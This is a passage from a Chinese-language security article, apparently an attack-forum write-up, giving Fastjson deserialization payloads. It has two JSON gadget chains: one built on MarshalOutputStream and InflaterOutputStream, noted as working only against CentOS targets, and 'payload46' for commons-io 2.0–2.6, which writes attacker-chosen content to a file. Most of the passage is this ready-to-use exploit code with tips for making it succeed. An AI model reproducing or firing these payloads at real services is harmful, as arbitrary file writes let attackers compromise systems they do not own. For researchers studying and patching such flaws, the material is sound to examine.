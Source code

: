 ```json
{
    "x":{
        "@type":"java.lang.AutoCloseable",
        "@type":"sun.rmi.server.MarshalOutputStream",
        "out":{
            "@type":"java.util.zip.InflaterOutputStream",
            "out":{
                "@type":"java.io.FileOutputStream",
                "file":"C:/Users/whoami/Desktop/testtesttest.txt",
                "append":false
            },
            "infl":{
                "input":"SGVsbG8sIFcwMWZoNGNrZXIh"
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}
```

`Windows`下利用会报错，只能在目标是`centos`的情况下使用：

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-95ffc739eb1860c2265f51bd84a150107a77f09e.png)

至于为什么会这样，请参考以下文章，写的很清楚很明白，在此不再赘述：

> <https://www.cnblogs.com/zpchcbd/p/14969606.html>

### 5.1.2 commons-io 2.0~2.6版本

`payload46`：

需要注意，需要修改下面的`W01fh4ckeraaaaaa...`为自己想要写入的内容，需要注意的是，**长度要大于`8192`，实际写入前`8192`个字符**！具体原因请参考下面的文章，文章里面写的非常清楚：

> <https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg>

```json
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.txt","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```
